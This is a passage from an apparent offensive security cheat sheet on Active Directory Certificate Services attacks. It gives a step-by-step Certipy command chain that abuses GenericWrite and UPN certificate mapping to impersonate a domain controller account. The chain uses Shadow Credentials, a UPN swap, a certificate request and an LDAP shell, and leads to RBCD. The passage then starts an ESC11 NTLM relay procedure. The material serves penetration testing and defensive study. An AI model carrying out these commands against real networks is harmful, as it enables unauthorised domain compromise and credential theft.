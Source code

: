With the CertificateMappingMethods containing the UPN bit flag (0x4), an account A with GenericWrite permissions can compromise any account B lacking a userPrincipalName property, including machine accounts and the built-in domain administrator Administrator.

Here, the goal is to compromise DC$@corp.local, starting with obtaining Jane's hash through Shadow Credentials, leveraging the GenericWrite.

```bash
certipy shadow auto -username John@corp.local -p Passw0rd! -account Jane
```

Jane's userPrincipalName is then set to DC$@corp.local.

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'DC$@corp.local'
```

A certificate for client authentication is requested as Jane using the default User template.

```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```

Jane's userPrincipalName is reverted to its original after this process.

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'Jane@corp.local'
```

To authenticate via Schannel, Certipy’s -ldap-shell option is utilized, indicating authentication success as u:CORP\DC$.

```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```

Through the LDAP shell, commands such as set_rbcd enable Resource-Based Constrained Delegation (RBCD) attacks, potentially compromising the domain controller.

```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```

This vulnerability also extends to any user account lacking a userPrincipalName or where it does not match the sAMAccountName, with the default Administrator@corp.local being a prime target due to its elevated LDAP privileges and the absence of a userPrincipalName by default.

## ESC11 - Relaying NTLM to ICPR

> Encryption is not enforced for ICPR requests and Request Disposition is set to Issue.

Requirements:

* [sploutchy/Certipy](https://github.com/sploutchy/Certipy) - Certipy fork
* [sploutchy/impacket](https://github.com/sploutchy/impacket) - Impacket fork

Exploitation:

1. Look for `Enforce Encryption for Requests: Disabled` in `certipy find -u user@dc1.lab.local -p 'REDACTED' -dc-ip 10.10.10.10 -stdout` output
2. Setup a relay using Impacket ntlmrelay and trigger a connection to it.

